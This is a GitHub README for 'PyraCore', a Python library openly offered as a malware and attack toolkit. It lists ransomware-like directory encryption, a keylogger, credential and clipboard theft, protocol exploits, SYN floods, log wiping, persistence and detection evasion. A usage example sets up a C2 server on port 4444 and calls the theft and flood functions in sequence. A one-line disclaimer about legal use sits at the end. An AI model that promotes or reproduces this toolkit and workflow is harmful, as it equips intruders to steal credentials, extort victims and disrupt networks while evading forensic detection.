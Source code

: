 ### **README.md for PyraCore**

---

# PyraCore

## Introduction
**PyraCore** is a highly modular and robust Python library designed to facilitate the development of advanced tools for system, network, and security operations. Its power lies in its comprehensive set of features that enable sophisticated tasks with ease and efficiency.

## Key Features

### 1. Advanced Encryption
- **AES Encryption/Decryption**: PyraCore provides secure AES encryption and decryption functions, ensuring data protection during transmission.
- **File/Directory Operations**: The library can encrypt and decrypt entire directories, making it useful for protecting sensitive files or implementing ransomware-like functionality.

### 2. Keylogger Functionality
- Monitors keystrokes in real-time and logs them to hidden files, allowing for the capture of sensitive information like passwords and credit card numbers.

### 3. Exploitation Capabilities
- Includes modules for exploiting vulnerabilities in protocols such as RDP, SMB, and HTTP, enabling penetration testing or malicious activities depending on the user's intent.

### 4. Information Gathering
- Extracts browser credentials, captures clipboard content, and steals system information (OS details, IP addresses, etc.), providing valuable insights into the target system.

### 5. Network Scanning and Attacks
- Performs SYN Flood attacks and scans networks for active hosts, facilitating network reconnaissance and potential denial-of-service attacks.

### 6. Anti-Forensics Techniques
- Deletes logs from the system to hinder forensic analysis, making it difficult to trace the actions performed by the library.

### 7. Persistence Mechanisms
- Adds the script to the Windows registry or startup folder to ensure it runs automatically upon system reboot, maintaining long-term access to the target system.

### 8. Polymorphic Code
- Generates dynamic code variations to evade detection by static analysis tools, increasing the stealthiness of the library's operations.

---

## Installation

To install the **PyraCore** library, you can use `pip`:

```bash
pip install pyracore
```

---

## Usage

### Basic Example
Here's a basic example of how to use the library:

```python
from pyracore.core.server import Server
from pyracore.modules.keylogger import Keylogger
from pyracore.modules.network import syn_flood, stop_syn_flood
from pyracore.modules.credentials import extract_browser_passwords
from pyracore.modules.file_operations import encrypt_directory, decrypt_directory
from pyracore.modules.system_info import steal_system_info
from pyracore.modules.clipboard import capture_clipboard
from pyracore.modules.anti_forensics import anti_forensics
from pyracore.sandbox_detection import is_sandbox

# Initialize the server C2
server = Server('192.168.1.102', 4444)  # Change to your Kali Linux IP
server.accept_connections()

# Start the keylogger
keylogger = Keylogger()
keylogger.start()

# Execute an SYN flood attack
syn_flood("192.168.1.10", 80)

# Stop the SYN flood attack
stop_syn_flood()

# Extract browser credentials
creds = extract_browser_passwords()
print(creds)

# Encrypt a directory
encrypt_directory("/path/to/directory")

# Decrypt a directory
decrypt_directory("/path/to/directory")

# Capture clipboard content
clipboard_content = capture_clipboard()
print(clipboard_content)

# Steal system information
info = steal_system_info()
print(info)

# Perform anti-forensics actions
anti_forensics()

# Check if running in a sandbox environment
if is_sandbox():
    print("Sandbox detected.")
    # self_destruct()
```

---

## Contribution

Contributions are welcome! If you want to improve or add new functionalities to **PyraCore**, follow these steps:

1. Fork the repository.
2. Create a branch for your contribution (`git checkout -b feature/nome-da-feature`).
3. Make your changes and commit (`git commit -am 'Adiciona nova funcionalidade'`).
4. Push to the branch (`git push origin feature/nome-da-feature`).
5. Open a Pull Request on GitHub.

---

## License

This project is licensed under the [MIT License](LICENSE). This means you can use, modify, and distribute it freely, provided you maintain the original credits.

---

## Contact

If you have any questions or need help, feel free to contact us at joaquimcarlostimoteo1@gmail.com.

---

## Disclaimer

While **PyraCore** offers powerful functionalities for legitimate purposes like penetration testing and security research, its misuse can lead to severe consequences, both legally and ethically. It is essential to use this library responsibly and within the bounds of the law, adhering to ethical guidelines and obtaining proper authorization before conducting any operations. Always prioritize ethical considerations and legal compliance when utilizing advanced libraries like PyraCore.